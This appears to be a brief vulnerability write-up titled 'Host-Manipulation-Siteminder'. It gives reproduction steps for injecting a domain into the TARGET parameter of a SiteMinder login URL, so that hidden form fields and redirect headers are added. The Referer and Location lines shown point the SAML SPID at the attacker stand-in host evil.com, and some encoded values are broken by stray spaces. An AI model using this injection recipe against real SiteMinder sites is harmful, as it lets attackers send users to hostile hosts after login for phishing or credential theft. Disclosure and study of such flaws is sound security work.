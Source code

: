 # Host-Manipulation-Siteminder

#Overview of the Vulnerability
This vulnerability is capable of injecting contents into the login form in a hidden way (<input type='hidden'), it also adds two reference fields capable of redirecting when performing a successful login.

                                                                                                
# Step to reproduce:
1) On url, change a fields /siteminderagent/forms/login.fcc?TYPE=&REALMOID=&GUID=&SMAUTHREASON=0&METHOD=GET&SMAGENTNAME=&TARGET=-SM- {INJECT DOMAIN}
2) After adding a domain to your request, a new form of hidden type will be created automatically (<input type='hidden') and the following parameters will also be added to the request header:

"Referer: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZ JogkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=925291bf-e9f8e8a5-e00625ea-bb9766fe-40f1431d-dd"

"Location: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZJo gkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=769a0761-7f79e2f5-35c4ace4-b9cccadc-f6d42b71-f"



# Google Hacking

First Redirect (Secure Redirect)
<img src="https://prnt.sc/NVJr3C5AvEE2">

Second Redirect (After Inject)
https://prnt.sc/9iXHGcXpVFI2
